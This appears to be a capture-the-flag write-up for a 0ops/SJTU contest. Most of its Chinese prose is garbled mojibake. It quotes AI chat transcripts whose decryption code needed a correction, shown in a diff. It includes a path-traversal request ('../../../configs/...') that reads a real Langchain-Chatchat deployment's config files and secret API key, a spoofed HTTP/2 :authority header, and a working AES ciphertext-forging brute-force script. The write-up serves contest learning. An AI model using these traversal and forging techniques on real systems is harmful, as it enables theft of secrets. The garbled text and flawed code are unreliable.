>   *(_QWORD *)encrypted_elf = _byteswap_uint64(0xAAF012CD537B100LL - 0x20291416A12FA900LL * key);
>   ptr = (unsigned long long *)&encrypted_elf[8];
>   do
>   {
>     key = _byteswap_uint64(key + 0xDEADBEEF);
>     *ptr++ ^= key;
>   }
>   while ( ptr != (unsigned __int64 *)&encrypted_elf[0x3928] );
> }
> ```
> 
> **Model**: […]
> 
> ```python
> # Calculate the modular multiplicative inverse of C2 mod 2**64
> # pow(base, exponent, modulus) calculates (base ** exponent) % modulus
> # Using -1 for exponent calculates the modular inverse
> try:
>     c2_inv = pow(C2, -1, MOD)
> except ValueError:
>     print(f"Error: Modular inverse of C2 (0x{C2:X}) modulo 2^64 does not exist.")
>     print("This usually means C2 and 2^64 are not coprime (C2 is even).")
>     # Let's double check C2... it ends in 00, so it's definitely even.
>     # The C code relies on unsigned integer overflow, not modular inverse properties.
>     # Division by an even number mod 2^N is tricky.
>     # Let's rethink: TARGET_VALUE = C1 - C2 * key
>     # C2 * key = C1 - TARGET_VALUE
>     # The C code performs standard unsigned multiplication and subtraction.
>     # Let RHS = C1 - TARGET_VALUE
>     # C2 * key = RHS (all operations are mod 2^64)
>     # Since C2 is even, a direct modular inverse doesn't exist.
>     # However, the C code *compiles and runs*, implying this calculation is valid
>     # within the constraints of typical unsigned integer arithmetic on the machine.
>     # Let's assume the C compiler/CPU handles this, perhaps C2 isn't zero.
>     # C2 ends in 00, so it's divisible by 256 = 2^8.
>     # Let's try calculating the inverse anyway, Python's pow handles it if possible.
>     # Re-running pow(C2, -1, MOD)... it raises ValueError.
> 
>     # Alternative approach:
>     # The C code IS NOT using modular inverse. It's using simple unsigned arithmetic.
>     # *(_QWORD *)encrypted_elf = byteswap(C1 - C2 * key);
>     # Let D = decrypted first qword = 0x00010102464C457F
>     # D = byteswap(C1 - C2 * key)
>     # byteswap(D) = C1 - C2 * key  (mod 2^64)
>     # C2 * key = C1 - byteswap(D)  (mod 2^64)
>     # Let B = byteswap(D) = target_value
>     # Let R = C1 - B
>     # C2 * key = R (mod 2^64)
> 
>     # This is an equation of the form a*x = b (mod n). It has solutions iff gcd(a, n) divides b.
>     # Here a=C2, x=key, b=R, n=MOD (2^64).
>     # gcd(C2, 2^64) = gcd(0x20291416A12FA900, 2^64). Since C2 ends in 00, it's divisible by 2^8 = 256.
>     # The gcd is 2^8 = 256.
>     # We need to check if R = (C1 - target_value) % MOD is divisible by 256.
>     R = (C1 - target_value) % MOD
>     if R % 256 == 0:
>         print("Condition gcd(C2, MOD) divides R is met.")
>         # If it holds, there are gcd(C2, MOD) = 256 possible solutions for 'key'.
>         # This contradicts the idea of a single unique key derived this way.
> 
>         # Let's reconsider the C code's operation:
>         # `0x20291416A12FA900LL * key` - This is unsigned 64-bit multiplication.
>         # `0xAAF012CD537B100LL - result` - Unsigned 64-bit subtraction.
>         # `_byteswap_uint64(result2)` - Byte swap.
>         # This is all standard CPU arithmetic. There *must* be a way C code calculates this.
>         # Maybe the constants or the known header are wrong? Assume they are correct.
> 
>         # Could the C code multiplication be implicitly different? No, it's standard.
>         # Let's trust the problem statement implies a unique key solution.
>         # What if the high bits of the key don't affect the result due to multiplication properties?
>         # C2 * key = R (mod 2^64)
>         # Let's assume ONE specific key was used.
> 
>         # Try using an online solver or library for modular linear equations?
>         # Or, can we simulate the C behaviour more directly?
> 
>         # Let's assume, for the sake of progress based on the prompt's implication,
>         # that even though C2 is even, the intended operation somehow yields a unique result,
>         # or that we only need *one* valid key out of the possible solutions.
>         # How would the C code compute `key` if it were reversing this? It wouldn't use modular inverse directly.
> 
>         # Is it possible the problem implies a simpler relationship?
>         # What if the *low* bytes of the key are determined, and the high bytes are zero/constrained?
>         # The multiplication `C2 * key` involves shifts and adds.
> 
>         # Let's step back: The prompt says "reverse engineer the decryption process of the first QWORD".
>         # It doesn't explicitly say "solve the modular equation".
>         # C2 * key = R (mod 2^64)
>         # Can we find *a* solution?
>         # Since gcd is 256, let g = 256.
>         # We can solve (C2/g) * key = (R/g) (mod MOD/g)
>         # C2_prime = C2 // g
>         # R_prime = R // g
>         # MOD_prime = MOD // g = 2^64 / 2^8 = 2^56
>         # Find inv_C2_prime = pow(C2_prime, -1, MOD_prime)
>         # key_base = (R_prime * inv_C2_prime) % MOD_prime
>         # The general solutions for key are key = key_base + k * MOD_prime, for k = 0, 1, ..., g-1.
>         # key = key_base + k * (2^56) for k = 0..255
> 
>         g = 256 # gcd(C2, MOD)
>         if R % g != 0:
>              print(f"Error: R (0x{R:X}) is not divisible by gcd (0x{g:X}). No solution exists.")
>              sys.exit(1)
> 
>         C2_prime = C2 // g
>         R_prime = R // g
>         MOD_prime = MOD // g # 2^56
> 
>         try:
>             inv_C2_prime = pow(C2_prime, -1, MOD_prime)
>             key_base = (R_prime * inv_C2_prime) % MOD_prime
> 
>             # Now we have 256 potential keys: key_base + k * 2^56
>             # The simplest assumption is k=0? Let's try that first.
>             key = key_base
>             print(f"Found a potential base key: 0x{key:016X}")
>             print("Note: There are 256 possible keys satisfying the first QWORD decryption.")
>             print("Assuming the simplest solution (k=0 in key_base + k * 2^56).")
> ```
> 
> […]
> 
> **User**: Your analysis about the gcd(C2, MOD) etc. is correct. Since there are 256 possible keys, instead of trying one of them, try every one of them, write the decryption result for every one of them to a different file (named `ezELF_%d`), and report which of them has the *second QWORD* (bytes 8..15) to be all zeros. (It is typical that an ELF has its second QWORD to be all zeros.)
> 
> **Model**: […thinks in Python]
> 
> ```python
> import struct
> import sys
> import os
> 
> # Constants from the C code and ELF header info
> C1 = 0xAAF012CD537B100
> C2 = 0x20291416A12FA900
> DEADBEEF = 0xDEADBEEF
> MOD = 2**64  # Work with 64-bit unsigned arithmetic
> 
> # Known first 8 bytes of an x64 Linux ELF
> KNOWN_ELF_HEADER_BYTES = b'\x7f\x45\x4c\x46\x02\x01\x01\x00'
> # Interpret these bytes as a little-endian 64-bit integer
> KNOWN_DECRYPTED_QWORD = struct.unpack('<Q', KNOWN_ELF_HEADER_BYTES)[0]
> 
> # File details
> INPUT_FILENAME = 'ezELF'
> OUTPUT_BASENAME = 'ezELF2' # Base name for output files
> ENCRYPTED_DATA_OFFSET = 0x3020
> ENCRYPTED_DATA_SIZE = 0x3928 # Determined from the loop condition: &encrypted_elf[0x3928]
> 
> # Helper function for 64-bit byte swap (equivalent to _byteswap_uint64)
> def byteswap64(value):
>   """Swaps the byte order of a 64-bit integer."""
>   try:
>       value &= (2**64 - 1) # Ensure value fits in uint64
>       packed_le = struct.pack('<Q', value)
>       return struct.unpack('>Q', packed_le)[0]
>   except struct.error:
>        # Should not happen with the masking, but belt-and-suspenders
>        value &= (2**64 - 1)
>        packed_le = struct.pack('<Q', value)
>        return struct.unpack('>Q', packed_le)[0]
> 
> # --- Step 1: Calculate the base key and parameters for all possible keys ---
> 
> # Reverse the byte swap applied in the C code
> target_value = byteswap64(KNOWN_DECRYPTED_QWORD)
> 
> # Calculate (C1 - TARGET_VALUE) mod 2**64
> R = (C1 - target_value) % MOD
> 
> # Calculate the gcd(C2, MOD). Since C2 ends in 00, it's divisible by 2^8=256.
> # Let's assume gcd is 256. We verify C2 is even.
> if C2 % 2 != 0:
>     print("Error: C2 is not even, the assumption about gcd might be wrong.")
>     # Fallback to calculating gcd properly if needed, but 256 is expected here.
>     # import math
>     # g = math.gcd(C2, MOD)
>     sys.exit(1)
> 
> g = 256 # gcd(C2, MOD) is 2^8 = 256
> 
> if R % g != 0:
>     print(f"Error: R (0x{R:X}) is not divisible by gcd (0x{g:X}). No solution exists.")
>     sys.exit(1)
> 
> C2_prime = C2 // g
> R_prime = R // g
> MOD_prime = MOD // g # 2^56
> 
> try:
>     # Find modular inverse for the reduced equation
>     inv_C2_prime = pow(C2_prime, -1, MOD_prime)
>     # Calculate the base solution for the key
>     key_base = (R_prime * inv_C2_prime) % MOD_prime
>     print(f"Calculated base key: 0x{key_base:016X}")
>     print(f"There are {g} possible keys of the form: key_base + k * 0x{MOD_prime:X}")
> 
> except ValueError:
>      print(f"Error: Modular inverse of C2_prime (0x{C2_prime:X}) modulo MOD_prime (0x{MOD_prime:X}) does not exist.")
>      sys.exit(1)
> 
> # --- Step 2: Read the encrypted data ---
> try:
>     with open(INPUT_FILENAME, 'rb') as f:
>         f.seek(ENCRYPTED_DATA_OFFSET)
>         encrypted_data = f.read(ENCRYPTED_DATA_SIZE)
>         if len(encrypted_data) != ENCRYPTED_DATA_SIZE:
>             print(f"Error: Could not read {ENCRYPTED_DATA_SIZE} bytes from offset {ENCRYPTED_DATA_OFFSET}.")
>             sys.exit(1)
> except FileNotFoundError:
>     print(f"Error: Input file '{INPUT_FILENAME}' not found.")
>     sys.exit(1)
> except Exception as e:
>     print(f"Error reading file: {e}")
>     sys.exit(1)
> 
> # --- Step 3: Define the decryption function ---
> def decrypt_full_data(encrypted_bytes, initial_key):
>     """Performs the full decryption algorithm on the data using the given key."""
>     decrypted_data = bytearray(encrypted_bytes)
>     data_len = len(decrypted_data)
> 
>     # Decrypt the first QWORD using the specific formula
>     if data_len >= 8:
>         qword0_calc = (C1 - (C2 * initial_key) % MOD) % MOD
>         qword0_swapped = byteswap64(qword0_calc)
>         decrypted_data[0:8] = struct.pack('<Q', qword0_swapped)
> 
>     # Decrypt subsequent QWORDs using the XOR loop
>     current_key = initial_key # Key state for the loop starts with the initial key
>     for i in range(8, data_len, 8):
>         # Update key *before* XORing this block (as per C code)
>         current_key = (current_key + DEADBEEF) % MOD
>         xor_key = byteswap64(current_key) # Byte swap the *updated* key for XOR
> 
>         # Get the QWORD *currently* in the buffer at this position
>         block_bytes = decrypted_data[i : i+8]
> 
>         # Ensure block is exactly 8 bytes
>         if len(block_bytes) != 8:
>              # This shouldn't happen if ENCRYPTED_DATA_SIZE is a multiple of 8
>              # and matches the C loop boundary.
>              print(f"Warning: Encountered partial block at offset {i}, size {len(block_bytes)}. Stopping decryption for this key.")
>              break # Stop processing for this key if size is wrong
> 
>         block_int = struct.unpack('<Q', block_bytes)[0]
> 
>         # XOR with the calculated key for this block
>         decrypted_int = block_int ^ xor_key
> 
>         # Write back the decrypted block
>         decrypted_data[i : i+8] = struct.pack('<Q', decrypted_int)
> 
>     return bytes(decrypted_data) # Return immutable bytes
> 
> 
> # --- Step 4: Iterate through all possible keys, decrypt, check QWORD 2, and write ---
> found_correct_key = -1
> found_correct_k = -1
> output_dir = "." # Or specify a sub-directory
> 
> print(f"\nTesting {g} possible keys...")
> 
> for k in range(g): # g is 256
>     # Calculate the full potential key for this iteration
>     potential_key = (key_base + k * MOD_prime) % MOD
> 
>     # Perform the full decryption with this key
>     decrypted_result_bytes = decrypt_full_data(encrypted_data, potential_key)
> 
>     # Check the second QWORD (bytes 8 to 15)
>     if len(decrypted_result_bytes) >= 16:
>         second_qword_bytes = decrypted_result_bytes[8:16]
>         second_qword_val = struct.unpack('<Q', second_qword_bytes)[0]
> 
>         if second_qword_val == 0:
>             print(f"[*] Found potential match with k = {k}!")
>             print(f"    Key: 0x{potential_key:016X}")
>             print(f"    Second QWORD (bytes 8-15) is ZERO.")
>             if found_correct_k != -1:
>                 print("    WARNING: Multiple keys resulted in a zero second QWORD!")
>             found_correct_k = k
>             found_correct_key = potential_key
>     else:
>         # This case should ideally not happen if input size is correct
>         print(f"Warning: Decrypted data for k={k} is too short (< 16 bytes) to check second QWORD.")
> 
> 
>     # Write the decryption result to a file
>     output_filename = os.path.join(output_dir, f"{OUTPUT_BASENAME}_{k}.elf")
>     try:
>         with open(output_filename, 'wb') as f_out:
>             f_out.write(decrypted_result_bytes)
>     except Exception as e:
>         print(f"Error writing file {output_filename}: {e}")
> 
> # --- Step 5: Report the final result ---
> print("\n--- Summary ---")
> if found_correct_k != -1:
>     print(f"The most likely correct key (based on second QWORD being zero) was found for k = {found_correct_k}")
>     print(f"Key: 0x{found_correct_key:016X}")
>     print(f"The corresponding decrypted file is: {OUTPUT_BASENAME}_{found_correct_k}.elf")
> else:
>     print("No key among the 256 possibilities resulted in a second QWORD of zero.")
>     print("Check the assumption about the second QWORD or the initial analysis.")
> 
> print(f"Finished processing all {g} keys.")
> ```
> 
> […]

</details>

```diff python
         current_key = (current_key + DEADBEEF) % MOD
         xor_key = byteswap64(current_key) # Byte swap the *updated* key for XOR
+        current_key = xor_key
```

密钥是`0ops{SJT`，解密得到二阶段二进制，是伪四方å‘扫雷，8×8网格的æ¯ä¸ªæ ¼å­ä¸­è®°è½½äº†å…¶å‘¨å›´å››æ ¼ä¸­çš„雷数，需è¦ä¸ç¯å¢ƒå˜é‡ä¸­çš„64ä½æ•´æ•°è¡¨ç¤ºçš„雷分布对应。但是，“周围四格â€çš„判定æ¡ä»¶é常怪，其中还å¯èƒ½äº§ç”Ÿå‚数越界的移ä½ã€‚在x64æ¶æ„上，移ä½å‚æ•°å–ä½6ä½ã€‚逻辑翻译æˆPython如下。

```python
table = [
    2, 2, 1, 2, 2, 3, 4, 2,
    2, 3, 2, 1, 1, 2, 2, 3,
    2, 2, 2, 2, 1, 2, 2, 1,
    1, 2, 3, 2, 2, 1, 2, 1,
    2, 2, 3, 2, 2, 1, 2, 1,
    1, 4, 2, 3, 1, 2, 1, 1,
    2, 2, 2, 1, 2, 3, 2, 1,
    1, 2, 2, 1, 3, 3, 3, 3,
]

def check(bits: int):
    for index in range(64):
        s = 0
        for di, dj in (-1, 0), (1, 0), (0, -1), (0, 1):
            row = index // 8 + di
            col = index % 8 + dj
            if 0 < row <= 7 or col:  # sic
                s += bits >> ((row * 8 + col) & 63) & 1
        if s != table[index]:
            return False
    return True
```

é‡åˆ°çº¸ç¬”谜题，就用z3求解。

<details lang=en>
<summary>Gemini 2.0 Flash</summary>

> **User**: Write a z3 solver that finds `bits` that makes the following function return 1.
> 
> ```python
> table = [
>     2, 2, 1, 2, 2, 3, 4, 2,
>     2, 3, 2, 1, 1, 2, 2, 3,
>     2, 2, 2, 2, 1, 2, 2, 1,
>     1, 2, 3, 2, 2, 1, 2, 1,
>     2, 2, 3, 2, 2, 1, 2, 1,
>     1, 4, 2, 3, 1, 2, 1, 1,
>     2, 2, 2, 1, 2, 3, 2, 1,
>     1, 2, 2, 1, 3, 3, 3, 3,
> ]
> 
> def check(bits: int):
>     for index in range(64):
>         s = 0
>         for di, dj in (-1, 0), (1, 0), (0, -1), (0, 1):
>             row = index // 8 + di
>             col = index % 8 + dj
>             if 0 < row <= 7 or col:  # sic
>                 s += bits >> ((row * 8 + col) & 63) & 1
>         if s != table[index]:
>             return False
>     return True
> ```
> 
> Do not use BitVec. Instead, make 64 boolean variables.
> 
> **Model**:
> 
> ```python
> import z3
> 
> table = [
>     2, 2, 1, 2, 2, 3, 4, 2,
>     2, 3, 2, 1, 1, 2, 2, 3,
>     2, 2, 2, 2, 1, 2, 2, 1,
>     1, 2, 3, 2, 2, 1, 2, 1,
>     2, 2, 3, 2, 2, 1, 2, 1,
>     1, 4, 2, 3, 1, 2, 1, 1,
>     2, 2, 2, 1, 2, 3, 2, 1,
>     1, 2, 2, 1, 3, 3, 3, 3,
> ]
> 
> def solve():
>     s = z3.Solver()
>     bits = [z3.Bool(f"b{i}") for i in range(64)]
> 
>     def check_condition(index, bits):
>         s_expr = 0
>         for di, dj in (-1, 0), (1, 0), (0, -1), (0, 1):
>             row = index // 8 + di
>             col = index % 8 + dj
>             if 0 < row <= 7 or col: # sic
>                 neighbor_index = (row * 8 + col) & 63
>                 s_expr += z3.If(bits[neighbor_index], 1, 0)
>         return s_expr == table[index]
> 
>     for index in range(64):
>         s.add(check_condition(index, bits))
> 
>     if s.check() == z3.sat:
>         model = s.model()
>         result = 0
>         for i in range(64):
>             if model[bits[i]]:
>                 result |= (1 << i)
>         return result
>     else:
>         return None
> 
> result = solve()
> if result is not None:
>     print(f"Found solution: {result}")
> else:
>     print("No solution found.")
> ```
> 
> […]
> 
> How to Run:
> 
> 1.  **Install Z3:**  If you don't have it already, install Z3 using `pip install z3-solver`.
> 2.  **Save:** Save the code as a Python file (e.g., `solver.py`).
> 3.  **Run:** Execute the file from your terminal: `python solver.py`
> 
> The output will be a single integer, which is the value of `bits` that satisfies the `check` function.

</details>

将输出ä¸ä¸€é˜¶æ®µä¸­ä¼ å…¥çš„argv[0]整数异或，得到解答`4ce_ZJu}`。

在一阶段程åºä¸­è¾“å…¥`0ops{SJT........4ce_ZJu}`å·²ç»å¯ä»¥å¾—到“You solved the puzzle!â€çš„æ示了。flag中间的8字节上哪找å»ï¼Ÿ

ç¯å¢ƒå˜é‡çš„å字是`0\1\xa0ops`，导致IDA无法将其识别为字符串。在这个字符串附近有错误æ示“0ops!â€ï¼Œä»¥åŠæ„义ä¸æ˜ä¹Ÿæ²¡æœ‰è¢«å¼•ç”¨çš„16字节åªè¯»æ•°æ®ã€‚

```asm
.rodata
+2022	align 8
+2028	db 0xb6
+2029	db 0x7d ; }
+202A	db 0x66 ; f
+202B	db 0x07
+202C	db 0x22 ; "
+202D	db 0x78 ; x
+202E	db 0x77 ; w
+202F	db 0x6a ; j
+2030	db 0xc3
+2031	db 0x22 ; "
+2032	db 0x2a ; *
+2033	db 0x37 ; 7
+2034	db 0x54 ; T
+2035	db 0x1d
+2036	db 0x27 ; '
+2037	db 0x0f
.rodata ends
```

总之照ç€ä¹‹å‰ä¸¤æ®µçš„æ ·å­ï¼Œè¯•ç€å¼‚或一下，就得到了flag中间8字节`u_L0vePe`，也ä¸çŸ¥é“为什么。

## Secret Config (Langchain-Chatchat)

注æ„到好几é“其他使用FastAPIæ­å»ºæœåŠ¡å™¨çš„题里都特地标æ˜ç¦æ­¢è‡ªåŠ¨ç”Ÿæˆæ–‡æ¡£ï¼Œæ¯”如deletedã€Notesã€AnatahEtodokuSakebi：

```python
app = FastAPI(docs_url=None, redoc_url=None, openapi_url=None)
```

这题想必就是è¦è®¿é—®æ–‡æ¡£ï¼Œæœ‰`/docs`å’Œ`/redoc`两个端点å¯ç”¨ã€‚`/docs`比较方便，å¯ä»¥ç›´æ¥åœ¨é¡µé¢ä¸Šå‘起测试请求。

å“我也是æœäº†ï¼Œè¿˜æ²¡å‘æ示的时候，我还以为这是专为比赛糊的æœåŠ¡ç«¯ï¼Œå› ä¸ºçœ‹èµ·æ¥åšå·¥å¾ˆèµ¶ï¼Œè´¨é‡å¾ˆå·®ï¼›ä¸»é¢˜æ˜¯LLMæ¥å£ï¼Œä¹Ÿä¸åƒå¤§ä½œä¸šã€‚没想到这居然是个真å®é¡¹ç›®ï¼Œè¿˜æœ‰ä¸ªçœŸå®è®®é¢˜[[BUG] path path traversal bug in api /knowledge_base/download_doc](https://github.com/chatchat-space/Langchain-Chatchat/issues/4008)。

1. GET /knowledge_base/list_knowledge_basesè·å–知识库列表，得知有0ops知识库。
2. æ ¹æ®flavor text，需è¦è·å–“AGIâ€æ¨¡å‹çš„API密钥，因此GET /knowledge_base/download_docè·å–0ops知识库下的`../../../configs/model_config.py`文件，其中指å‘了åŒè·¯å¾„下的å¦ä¸€ä¸ªæ¨¡å—。
    ```py
    # A common practice is to keep secret keys in a separate submodule in the same directory:)
    from .tOPs3cRet_config import TOPSECRETAGI_APIKEY
    ```
3. è·å–åŒçŸ¥è¯†åº“下的`../../../configs/tOPs3cRet_config.py`文件，失败。
4. è·å–åŒçŸ¥è¯†åº“下的`../../../configs/tOPs3cRet_config/__init__.py`文件。
    ```py
    TOPSECRETAGI_APIKEY = "0ops{y0U_gE7_The_@PIK3Y_To_The_70P_5ECRE7_mOd31}"
    ```

## Expr-Geom0

表达å¼è§£æ器和Expr-Warmup一样，所以åªçœ‹check就好。

```c
void sub_2711(double *dest, double *u1, double *u2, double *u3, double *xyz, double *abc) {
  assert(fabs(dot_product(u1, u2)) < 1e-11 && fabs(dot_product(u1, u3)) < 1e-11);
  double v14[3], v15[3], v16[3];
  vector_minus(v14, u2, u3);
  set_vector(
    v15,
    v14[1] * (abc[2] * abc[2]) + v14[2] * (abc[1] * abc[1]),
    *abc * *abc * v14[2] + abc[2] * abc[2] * v14[0],
    *abc * *abc * v14[1] + abc[1] * abc[1] * v14[0]);
  double v8 = dot_product(v15, xyz);
  set_vector(v16, 1.0, 1.0, 1.0);
  linear_solve_3(dest, v16, u1, v15, 1.0, 0.0, v8);
  assert(dest[0] != dest[1]);
}

double sub_414C(double *a1, double *a2) {
  return a1[1] * (-*a2 * *a2) * a1[2] - a1[2] * (a2[1] * a2[1]) * *a1 - *a1 * (a2[2] * a2[2]) * a1[1];
}

bool check(double *abc, double *xyz) {
  double x_hat[3], y_hat[3], z_hat[3];
  set_vector(x_hat, 1.0, 0.0, 0.0);
  set_vector(y_hat, 0.0, 1.0, 0.0);
  set_vector(z_hat, 0.0, 0.0, 1.0);
  double i_hat[3], j_hat[3], k_hat[3];
  cross_product(i_hat, y_hat, z_hat);
  cross_product(j_hat, z_hat, x_hat);
  cross_product(k_hat, x_hat, y_hat);
  double v11[3], v12[3], v13[3];
  sub_2711(v11, i_hat, y_hat, z_hat, xyz, abc);
  sub_2711(v12, j_hat, z_hat, x_hat, xyz, abc);
  sub_2711(v13, k_hat, x_hat, y_hat, xyz, abc);
  double v14[3], v15[3], v16[3];
  vector_minus(v14, xyz, v11);
  vector_minus(v15, xyz, v12);
  vector_minus(v16, xyz, v13);
  if (xyz[0] < 0.0) {
    double v6 = sqrt(sub_414C(v14, abc));
    double v7 = sqrt(sub_414C(v15, abc));
    double v4 = sqrt(sub_414C(v16, abc));
    return v6 - v7 < 1e-11 && v7 - v4 < 1e-11;
  }
  return result;
}
```

å…¶å®ç›´åˆ°æœ€å也没æ懂这个表达å¼åˆ°åº•æœ‰ä»€ä¹ˆå‡ ä½•æ„义，翻译到Mathematica里硬解了。

```wolfram
sub2711[u1_, u2_, u3_, xyz_, abc_] :=
  Module[{v14 = u2 - u3},
   Module[{v15 = {v14[[2]] abc[[3]]^2 + v14[[3]] abc[[2]]^2,
        v14[[3]] abc[[1]]^2 + v14[[1]] abc[[3]]^2,
       v14[[2]] abc[[1]]^2 + v14[[1]] abc[[2]]^2}},
    LinearSolve[{{1, 1, 1}, u1, v15}, {1, 0, v15 . xyz}]]];
sub414c[a1_, a2_] := -a1[[2]] a1[[3]] a2[[1]]^2 -
   a1[[3]] a1[[1]] a2[[2]]^2 - a1[[1]] a1[[2]] a2[[3]]^2;
abc = {a, b, c}; xyz = {x, y, z};
v14 = xyz - sub2711[UnitVector[3, 1], UnitVector[3, 2], UnitVector[3, 3], xyz, abc];
v15 = xyz - sub2711[UnitVector[3, 2], UnitVector[3, 3], UnitVector[3, 1], xyz, abc];
v16 = xyz - sub2711[UnitVector[3, 3], UnitVector[3, 1], UnitVector[3, 2], xyz, abc];
Solve[sub414c[v14, abc] == sub414c[v15, abc] &&
  sub414c[v15, abc] == sub414c[v16, abc] &&
  x + y + z == 1, {x, y, z}]
```

输入值有三个，但check中åªæ供了两个等å¼ï¼Œç¬¬ä¸‰ä¸ªç­‰å¼æ˜¯å› ä¸ºè¿›å…¥check之å‰ï¼Œè¾“å…¥å‘é‡è¢«<var>L</var><sup>1</sup>归一化了。解出æ¥å››ç»„解，选一个x为负的输入å³å¯ã€‚

```console
> a a b m c m d
> b b a m c p d
> c b a m c p d
```

我在赛中一直以为归一化是按<var>L</var><sup>2</sup>åšçš„，也就是<var>x</var><sup>2</sup> + <var>y</var><sup>2</sup> + <var>z</var><sup>2</sup> = 1，这样解出æ¥çš„解很长。因为程åºæ²¡æœ‰é™åˆ¶è¾“入长度，我一度以为就是è¦æŠŠé‚£ä¹ˆé•¿çš„解转为逆波兰表达å¼ã€‚但我çµæœºä¸€åŠ¨ï¼šè¯¶ 🤓â˜ï¸ 把æ¡ä»¶æ”¹æˆ<var>x</var> + <var>y</var> + <var>z</var> = 1试试，结æœè¿‡äº†ã€‚直到读到其他选手的write-upæ‰å‘ç°ä¸€ç›´éƒ½æ错了归一化的æ“作。

## Push2Hint

虽然libcurl库支æŒHTTP/2 push，但是curl命令行工具直到push被弃用都没有支æŒè¯¥ç‰¹æ€§ã€‚æ示说å°è¯•nghttp客户端。无论用nghttp访问两个æœåŠ¡å™¨ä¸­çš„哪一个，看起æ¥éƒ½æ²¡æœ‰ç‰¹æ®Šä¹‹å¤„。“There is no flag inside the gif!â€è¯´æ˜ä¸‹ä¸€æ­¥åœ¨GIF外é¢ï¼Œä¹Ÿå°±æ˜¯è®¿é—®æ—¶é™„带的æ¨é€ã€‚

```console
$ nghttp -vvn https://instance.penguin.0ops.sjtu.cn:18233/push.gif --hex-dump
…
[  1.492] recv (stream_id=13) :method: GET
[  1.492] recv (stream_id=13) :path: /0195183f-2a1d-7fd7-a4b7-08a5406b502b
[  1.492] recv (stream_id=13) :scheme: https
[  1.492] recv (stream_id=13) :authority: instance.penguin.0ops.sjtu.cn:18233
[  1.492] recv (stream_id=13) accept-encoding: gzip, deflate
[  1.492] recv (stream_id=13) user-agent: nghttp2/1.59.0
[  1.492] recv PUSH_PROMISE frame <length=86, flags=0x04, stream_id=13>
          ; END_HEADERS
          (padlen=0, promised_stream_id=2)
…
```

`https://instance.penguin.0ops.sjtu.cn:18233/0195183f-2a1d-7fd7-a4b7-08a5406b502b`这个地å€ç”¨æµè§ˆå™¨å°±èƒ½æ‰“开，其中内容也由pushæ¨é€è¿›æ¥ã€‚

```
Hint: I hosted the website https://gives.you.hint on the other instance, visit "/r3d1r3ct" to get the final hint! We don't accept old browsers on this one too!
```

注æ„到å‘é€çš„æ•°æ®ä¸­åŒ…å«`:authority:`标头，为访问所用的域å和端å£å·ï¼Œç¯¡æ”¹è¯¥æ ‡å¤´å¯ä»¤æœåŠ¡å™¨è®¤ä¸ºå®¢æˆ·æ˜¯é€šè¿‡`gives.you.hint`域å访问的。

```console
$ nghttp -vvn https://instance.penguin.0ops.sjtu.cn:18725/r3d1r3ct -H ':authority: gives.you.hint'
…
[  1.704] recv (stream_id=13) :status: 103
[  1.705] recv (stream_id=13) link: </5uPer_5eCR3t_PatH>; rel=preload; as=fetch
[  1.705] recv HEADERS frame <length=50, flags=0x04, stream_id=13>
          ; END_HEADERS
          (padlen=0)
[  1.707] recv (stream_id=13) :status: 302
[  1.707] recv (stream_id=13) server: Werkzeug/3.1.3 Python/3.12.4
[  1.707] recv (stream_id=13) date: Sat, 05 Apr 2025 02:08:40 GMT
[  1.707] recv (stream_id=13) content-type: text/html; charset=utf-8
[  1.707] recv (stream_id=13) content-length: 239
[  1.707] recv (stream_id=13) location: https://0ops.no.flag.here/
[  1.707] recv HEADERS frame <length=125, flags=0x04, stream_id=13>
          ; END_HEADERS
          (padlen=0)
…
```

状æ€ç 103是early hint，也就是push的替代物。æœåŠ¡ç«¯ä¸ä¼šåœ¨æµä¸­æ¨é€æ–‡ä»¶å†…容，åªä¼šæŒ‡ç¤ºåœ°å€ï¼Œå®¢æˆ·ç«¯è‡ªè¡Œå†³å®šæ˜¯å¦è®¿é—®ã€‚

```console
$ nghttp https://instance.penguin.0ops.sjtu.cn:18725/5uPer_5eCR3t_PatH -H ':authority: gives.you.hint'
[WARNING] Certificate verification failed: hostname mismatch
0ops{600dby3_PU$H_4Nd_54y_he1l0_7o_3@R1y_h!ntS}
```

## AnatahEtodokuSakebi

需è¦åœ¨10分钟内解决AES加密，10秒钟内解决MD5工作é‡è¯æ˜ã€‚如此长的时间窗å£è¯´æ˜è¯¥çˆ†äº†ã€‚

消æ¯æ–‡æœ¬25字节，时间戳10字节，和为35字节。分å—长度为16字节，数æ®åˆ†ä¸º16 + 16 + 3字节的三段。照ç€padding方法还åŸå›å»ï¼Œæœ‰ä¸€å—需è¦åŒæ—¶æ»¡è¶³åŠ å¯†åçš„å13字节为已知值且解密åçš„å‰3字节为已知值，爆加密åçš„å‰3字节å³å¯ã€‚使用多线程爆破，我的电脑上ä¸åˆ°30秒就能爆出。

```python
import requests
import time
import hashlib
import string
from Crypto.Cipher import AES
from pwn import context
from pwnlib.util.iters import mbruteforce

context.log_level = 'info'

key = b"UZhyYC6oiNH2IDZE"
iv = b"sjtuctf20250oops"

def check_pow(code: str):
    return hashlib.md5((prefix + code).encode()).hexdigest().startswith('00000')

message = ("Give me! It's MyFLAG!!!!!" + str(int(time.time()) // 600 * 600)).encode()
assert len(message) == 16 + 16 + 3
ecb = AES.new(key, AES.MODE_ECB)
block01 = AES.new(key, AES.MODE_CBC, iv).encrypt(message[:32])

def check(three_chars: str):
    block2 = ecb.encrypt(bytes(map(ord, three_chars)) + block01[19:])
    cipher = AES.new(key, AES.MODE_CBC, iv)
    assert cipher.decrypt(block01) == message[:32]
    return cipher.decrypt(block2)[:3] == message[32:]

three_chars = mbruteforce(check, ''.join(map(chr, range(256))), 3, 'fixed')
block2 = ecb.encrypt(bytes(map(ord, three_chars)) + block01[19:])
encrypted = block01[:16] + block2 + block01[16:19]
assert len(encrypted) == len(message)

data = encrypted.hex()
timestamp = str(int(time.time()))
prefix = data + timestamp
code = mbruteforce(check_pow, string.printable, 3)
print(requests.post("http://114514.instance.penguin.0ops.sjtu.cn:18080/flag", data={
    'data': data,
    'timestamp': timestamp,
    'code': code,
}).json())
```

## EzWebAuthn & EzWebAuthn_Revenge

<!----><a href="https://webauthn.io/static/images/cat.svg"></a>

开多个窗å£å¯ä»¥æ³¨å†Œå¤šä¸ªå…·æœ‰ç›¸åŒç”¨æˆ·å的账户，ä¸è¿‡æ²¡ä»€ä¹ˆç”¨ã€‚

